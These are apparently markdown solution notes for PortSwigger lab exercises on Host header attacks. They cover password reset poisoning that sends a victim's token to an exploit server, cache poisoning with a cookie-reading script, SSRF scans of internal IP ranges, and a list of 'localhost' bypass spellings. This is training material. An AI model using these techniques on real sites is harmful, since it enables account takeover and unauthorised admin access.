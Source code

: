 ## Basic password reset poisoning

1) Investigate (do) full "Forgot your password?" functionality to your own account.
2) Notice that the POST /forgot-password request is used to trigger the password reset email. This contains the username whose password is being reset as a body parameter.
3) change the Host header to your exploit server's domain name (YOUR-EXPLOIT-SERVER-ID.exploit-server.net) and change the username parameter to carlos. Send the request.
4) Go to your exploit server and open the access log. You will see a request for GET /forgot-password with the temp-forgot-password-token parameter containing Carlos's password reset token.
5) Go to your email client and copy the genuine password reset URL from your first email. Visit this URL in the browser, but replace your reset token with the one you obtained from the access log.

## Host header authentication bypass

1) Go to the /robots.txt and observe that there is an admin panel at /admin.
2) Notice that /admin can be accessed by local users..
3) Change the Host header to localhost and send the request.


## Host header authentication bypass

1) Go to the /robots.txt and observe that there is an admin panel at /admin.
2) Notice that /admin can be accessed by local users..
3) Change the Host header to localhost and send the request.

## Web cache poisoning via ambiguous requests (x-Cache-hit)

1) Exploit server -> and create a file at `/resources/js/tracking.js` containing the payload `alert(document.cookie)`.
2)
   ```
    GET /?cb=123 HTTP/1.1
    Host: YOUR-LAB-ID.web-security-academy.net
    Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net
    ```

## Routing-based SSRF

1) Set `Host: 192.168.0.§0§`; Payload -> numbers from 0 to 255 with step 1.
2) `GET /admin/delete?csrf=QCT5OmPeAAPnyTKyETt29LszLL7CbPop&username=carlos`.
3) Copy the session cookie from the Set-Cookie header in the displayed response and add it to your request.
4) Right-click on your request and select Change request method. Burp will convert it to a `POST` request. Send.

## SSRF via flawed request parsing

1) Observe that you can also access the home page by supplying an absolute URL in the request line as follows:
`GET https://YOUR-LAB-ID.web-security-academy.net/`.
2) It means that its possible now to modify header:
   
   ```
   GET https://YOUR-LAB-ID.web-security-academy.net/
   Host: BURP-COLLABORATOR-SUBDOMAIN
   ```
3)  Go to Intruder and deselect Update Host header to match target. Use the Host header to scan the IP range 192.168.0.0/24.
4)  In Burp Repeater, append /admin to the absolute URL in the request line and send the request. Not you have access.

## Host validation bypass via connection state attack

1) Take `GET /` Request:
   Change the path to /admin.
   Change Host header to 192.168.0.1.
2) you are simply redirected to the homepage. Duplicate the tab, then add both tabs to a new group.
3) In the first tab:
   Change the path back to /.
   Change the Host header back to `YOUR-LAB-ID.h1-web-security-academy.net`.

4) Send `group in sequence (single connection)`. Change the Connection header to keep-alive.

## Bypasses:
```
localhost
Localhost
LocalHost
lOcAlhOsT
LOcalHOSt
```
